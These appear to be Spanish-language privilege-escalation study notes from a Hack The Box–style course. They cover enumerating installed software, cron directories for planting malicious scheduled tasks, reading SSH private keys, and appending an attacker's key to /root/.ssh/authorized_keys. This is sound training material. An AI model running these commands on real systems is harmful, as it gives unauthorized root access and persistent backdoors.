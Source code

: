 

## Vulnerable software

Buscar softwares instalados para ver si alguno es vulnerable

Linux:

```
dpkg -l
```

Windows

```
C:\Program Files
```

## Scheduled Tasks

En servidores windows y linux hay una forma de que ciertos scripts se ejecuten cada x tiempo, uno de ellos seria con un antivirus que revise cada 1 hora o una app para hacer backups cada 30 min, lo que queremos es poder añadri una task con nuestro codigo malicioso para que se ejecute como un scheduled task(windows) o cronjons (Linux)

Directorios de cronjobs:

1. `/etc/crontab`
2. `/etc/cron.d`
3. `/var/spool/cron/crontabs/root`

## SSH Keys

`/home/user/.ssh/id_rsa` 
`/root/.ssh/id_rsa`

si la obtenemos de /root podemos usar el -i flag para loguearnos de esta forma :

```
bonack@htb[/htb]$ vim id_rsa
bonack@htb[/htb]$ chmod 600 id_rsa
bonack@htb[/htb]$ ssh root@10.10.10.10 -i id_rsa
```
Si tenemos permisos de escritura en algun directorio de claves ssh podemos meter nuestra propia clave para que sea valida en este directorio:

`/home/user/.ssh/authorized_keys`

la clave que pondremos ahí se genera con : 

```shell-session
bonack@htb[/htb]$ ssh-keygen -f key
```

esto nos dará dos archivos el key que es para usarse con `ssh -i` y el key.pub que es el que tenemos que poner en el directorio de claves ssh:

```shell-session
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```
para luego hacer :

```shell-session
bonack@htb[/htb]$ ssh root@10.10.10.10 -i key
```

